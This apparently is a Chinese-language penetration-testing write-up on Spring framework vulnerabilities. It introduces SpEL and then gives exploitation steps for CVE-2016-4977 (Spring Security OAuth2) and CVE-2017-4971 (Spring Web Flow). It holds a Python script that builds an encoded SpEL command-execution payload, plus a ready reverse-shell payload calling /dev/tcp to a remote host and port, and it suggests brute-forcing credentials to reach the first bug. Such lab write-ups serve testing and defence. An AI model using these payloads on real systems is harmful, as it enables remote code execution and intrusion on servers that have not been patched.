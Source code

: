 Spring于2002年最早提出并随后创建，2009年9月Spring 3.0 RC1发布后，Spring就引入了SpEL (Spring Expression Language)。SpEL(Spring Expression Language)是基于spring的一个表达式语言，类似于struts的OGNL，能够在运行时动态执行一些运算甚至一些指令，类似于Java的反射功能。

# 三、漏洞利用

## 1、Spring Security OAuth2远程命令执行 CVE-2016-4977

oauth/authorize路径下，认证后漏洞，所以实战需要先爆破或者获取密码，也可以认为漏洞特征，发现可配合插件进行发现

影响版本：

2.0.0-2.0.9
1.0.0-1.0.5

POC生成脚本：

```
#!/usr/bin/env python
import base64
message = input('Enter message to encode:')
message = 'bash -c {echo,%s}|{base64,-d}|{bash,-i}' % bytes.decode(base64.b64encode(message.encode('utf-8')))
print(message)
poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])
for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)
poc += ')}'
print(poc)
```

![](/zj_img/WEBRESOURCE99c0ca1e0c911ba4a490361b1b7cf0a8截图.png)

![](/zj_img/WEBRESOURCE3f8fbf5a7c0ac5e5c246fa4f9110237e截图.png)

![](/zj_img/WEBRESOURCE9f7078dae3c0057b578bbc87aadba8c8截图.png)

## 2、Spring Web Flow框架远程代码执行(CVE-2017-4971)

Spring Web Flow是Spring的一个子项目，主要目的是解决跨越多个请求的、用户与服务器之间的、有状态交互问题，提供了描述业务流程的抽象能力，Spring WebFlow是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其2.4.0 - 2.4.4 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

POC：

```
原POC:
&_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/192.168.2.40/8888 0>&1")).start()=vulhub

URL编码后：
&_(new java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.2.40/8888 0>%261")).start()=vulhub
```
